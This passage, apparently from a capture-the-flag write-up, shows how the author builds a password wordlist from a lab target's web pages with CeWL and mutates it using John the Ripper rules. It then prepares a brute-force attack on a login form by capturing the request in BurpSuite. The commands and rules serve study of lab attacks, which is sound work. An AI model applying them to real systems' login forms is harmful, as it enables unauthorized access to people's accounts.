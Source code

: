 ```html
<html>
<a href="http://172.16.229.151/">1</a>
<a href="http://172.16.229.151/personal/">2</a>
<a href="http://172.16.229.151/super_secret_login_path_muhahaha/">3</a>
</html>
```

This way I just had to run cewl once to crawl all three directories: 

```text
# cewl -o -w cewllist.txt http://localhost/crawl.html
CeWL 5.0 Robin Wood (robin@digininja.org) (www.digininja.org)

# wc -l cewllist.txt 
109 cewllist.txt
```

109 entries were saved in the wordlist. Next step was to mutate them using john. I added the following rules to the [List.Rules:Wordlist] ruleset in /etc/john/john.conf

```
# append 1-2 numbers at the end of each word
$[0-9]
$[0-9]$[0-9]
# prefix 1-2 numbers at the start of each word
^[0-9]
^[0-9]^[0-9]
```

With that done, I ran cewllist.txt against john to mutate it and saved the output to wordlist.txt

```
# john --wordlist=cewllist.txt --rules --stdout > wordlist.txt
words: 29246  time: 0:00:00:00 DONE (Tue Jul 15 14:45:01 2014)  w/s: 1462K  current: 99Password
```

The generated list was fairly big, at 29,246 words. I hoped that there were no security measures that would slow down a bruteforce attack on the login form. 

Before I could use raider, I needed to capture the HTTP headers sent by the login form. Since BurpSuite was already running, I turned on the proxy intercept and logged in with username jack (the only user I know that exists so far), and a dummy password, letmein. BurpSuite captured the request: 

![](/images/2014-07-15/4.png)
